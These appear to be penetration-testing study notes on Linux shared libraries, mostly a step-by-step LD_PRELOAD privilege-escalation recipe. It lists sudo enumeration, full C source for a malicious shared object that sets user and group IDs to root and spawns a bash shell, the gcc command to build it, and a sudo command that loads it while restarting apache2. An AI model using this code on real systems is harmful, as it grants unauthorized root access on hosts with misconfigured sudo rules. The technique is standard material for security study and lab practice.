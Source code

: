 Static libraries: .a
Dynamically linked shared object libraries: .so

**Shared objects required by a binary can be viewed using the ldd utility
```shell-session
ldd /bin/ls
```
- This shows all libraries required by /bin/ls

## LD_PRELOAD Privilege Escalation

**Need a user with sudo privileges
```shell-session
sudo -l
```

**Create binary
```shell-session
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

**Compile binary
```shell-session
gcc -fPIC -shared -o root.so root.c -nostartfiles
```

**Escalate Privileges
```shell-session
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```
